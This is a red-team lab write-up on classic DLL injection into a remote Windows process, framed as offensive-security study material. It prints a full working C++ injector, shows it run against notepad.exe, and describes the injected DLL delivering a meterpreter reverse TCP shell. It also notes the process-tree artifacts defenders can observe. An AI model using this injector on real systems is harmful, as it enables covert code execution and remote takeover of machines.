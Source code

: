 ```yaml
---
layout: post
title: "dll injection"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /dll-injection/
---
```


---
layout: post
title: "dll injection"
date: 2024-06-18
categories: code-injection-process-injection
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /dll-injection/
---

---
description: Injecting DLL into a remote process.
---

# DLL Injection

This lab attempts a classic DLL injection into a remote process.

## Execution

{% code title="inject-dll.cpp" %}
```cpp
int main(int argc, char *argv[]) {
	HANDLE processHandle;
	PVOID remoteBuffer;
	wchar_t dllPath[] = TEXT("C:\\experiments\\evilm64.dll");
	
	printf("Injecting DLL to PID: %i\n", atoi(argv[1]));
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof dllPath, MEM_COMMIT, PAGE_READWRITE);	
	WriteProcessMemory(processHandle, remoteBuffer, (LPVOID)dllPath, sizeof dllPath, NULL);
	PTHREAD_START_ROUTINE threatStartRoutineAddress = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	CreateRemoteThread(processHandle, NULL, 0, threatStartRoutineAddress, remoteBuffer, 0, NULL);
	CloseHandle(processHandle); 
	
	return 0;
}
```
{% endcode %}

Compiling the above code and executing it with a supplied argument of `4892` which is a PID of the notepad.exe process on the victim system:

{% code title="attacker@victim" %}
```csharp
PS C:\experiments\inject1\x64\Debug> .\inject1.exe 4892
Injecting DLL to PID: 4892
```
{% endcode %}

After the DLL is successfully injected, the attacker receives a meterpreter session from the injected process and its privileges:

![](../../.gitbook/assets/inject-dll-shell.png)

{% file src="../../.gitbook/assets/inject1.exe" caption="DLL injector.exe" %}

{% file src="../../.gitbook/assets/evilm64.dll" caption="c:\\experiments\\evilm64.dll \(windows/x64/meterpreter/reverse\_tcp\)" %}

## Observations

Note how the notepad spawned rundll32 which then spawned a cmd.exe because of the meterpreter payload \(and attacker's `shell` command\) that got executed as part of the injected evilm64.dll into the notepad process:

![](../../.gitbook/assets/inject-dll.png)

![](../../.gitbook/assets/inject-dll-procmon.png)

## References

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/ms683212\(v=vs.85\).aspx" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/ms684175\(v=vs.85\).aspx" %}



@spotheplanet
